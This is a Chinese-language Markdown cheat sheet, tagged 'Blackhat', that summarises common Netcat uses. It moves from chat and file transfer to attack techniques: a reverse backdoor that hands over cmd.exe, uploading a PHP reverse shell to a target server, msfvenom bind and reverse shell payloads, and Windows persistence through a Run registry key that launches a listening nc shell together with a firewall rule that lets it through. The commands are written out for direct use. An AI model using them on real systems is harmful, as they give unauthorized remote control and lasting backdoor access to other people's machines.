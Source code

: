 ```yaml
---
title: Netcat常用方法汇总
name: netcat-general
date: 2017-11-11
tags: [nc,netcat]
categories: [Blackhat]
---
```


* 目录
{:toc}

---

# Netcat常用方法汇总

## 1. 基本使用

### 1.1 聊天工具

```shell
# 服务端
nc -lvp 5678
# 客户端
nc 192.168.1.15 5678
```

### 1.2 文件传输

```shell
# 接收端
nc -lvp 5555 > a.zip
# 发送端
nc 192.168.1.5 5678 < cms.zip
```

### 1.3 反向后门

```shell
# 监听端
nc -lvp 5678
# 控制端
nc 192.168.1.5 5678 -e cmd.exe
```

## 2. 综合使用

### 2.1 结合php反向后门

```shell
# 控制端启动监听
nc -lvp 1234
```

编辑php反弹shell后门，`vi /usr/share/webshells/php/php-reverse-shell.php`，修改 **$ip** 和 **$port** 为控制端的地址和端口
将 `php-reverse-shell.php` 文件上传至目标服务器中，通过浏览器触发 `php-reverse-shell.php` 文件路径，在nc终端中的到反弹shell

### 2.2 结合msfvenom使用

**windows/shell_hidden_bind_tcp**

```shell
msfvenom –p windows/shell_hidden_bind_tcp ahost=192.168.0.107 lport=4444 –f exe > root.exe
nc 192.168.0.103 4444
```

**windows/shell_reverse_tcp**

```shell
msfvenom –p windows/shell_reverse_tcp  lhost=192.168.0.107 lport=8888 –f exe > root.exe
nc -lvp 8888
```

### 2.3 做持久化后门使用

```shell
# 将nc.exe上传至目标服务器中指定目录
msf > upload /usr/share/windows-binaries/nc.exe C:\\Windows\\system32

# 切换到目标cmd环境
msf > shell

# 添加自启动注册表项
C:\WINDOWS> reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v netcat -d 'C:\windows\system32\nc.exe -Ldp 4445 -e cmd.exe'

# 添加nc出入站防火墙规则
C:\WINDOWS> netsh advfirewall firewall add rule name='netcat' dir=in action=allow protocol=Tcp localport=4445

# 检查nc防火墙是否已经开放
C:\WINDOWS> netsh firewall show portopening

# 重启目标电脑，使用nc连接
C:\WINDOWS> nc -nv 192.168.0.101 4445
```
